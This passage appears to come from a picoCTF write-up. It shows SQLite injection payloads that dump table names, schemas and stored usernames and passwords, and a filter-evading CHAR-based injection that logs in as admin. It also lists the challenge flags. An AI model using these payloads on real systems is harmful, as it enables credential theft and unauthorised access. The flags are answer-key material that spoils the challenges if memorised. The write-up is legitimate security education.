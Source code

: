After some tests, the DBMS is sqlite and the query seems to look like `UPDATE table SET col = 'user_input'; SELECT col FROM table`

First, we need to retrieve the table name:

```
' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0) || '
-> startup_users
```

Then the column names:

```
' || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='startup_users') || '
-> CREATE TABLE startup_users (nameuser text, wordpass text, money int)
```

And dump the datas:

```
' || (SELECT nameuser || wordpass FROM startup_users limit 1 offset 0) || '
-> admin passwordron

' || (SELECT nameuser || wordpass || money FROM startup_users limit 1 offset 1) || '
-> ronnot_the_flag_293e97bd picoCTF{1_c4nn0t_s33_y0u_eff986fd}
```

The flag is: `picoCTF{1_c4nn0t_s33_y0u_eff986fd}`

## Web Gauntlet 2

There is a loggin form and we must loggin as admin

The query is given: `SELECT username, password FROM users WHERE username='test' AND password='test'`

There is also words filtered: `or and true false union like = > < ; -- /* */ admin`

With `admi'||CHAR(` as username and `-0+110)||'` as password, the query is transformed into `SELECT username, password FROM users WHERE username='admi'||CHAR(' AND password='-0+110)||''` 

`' AND password='-0+110` is `110`, `CHAR(110)` is `'n'`, and `'admi'||'n'||''` is `'admin'`

The final query looks like: `SELECT username, password FROM users WHERE username='admin'`

We are logged in and we get the flag!

The flag is: `picoCTF{0n3_m0r3_t1m3_d5a91d8c2ae4ce567c2e8b8453305565}`

## Web Gauntlet 3

Like `Web Gauntlet 2` except that the maximum size is no longer 35 but 25

Our payload still work because its size is 23

And the flag is: `picoCTF{k3ep_1t_sh0rt_fc8788aa1604881093434ba00ba5b9cd}`

# ARMssembly
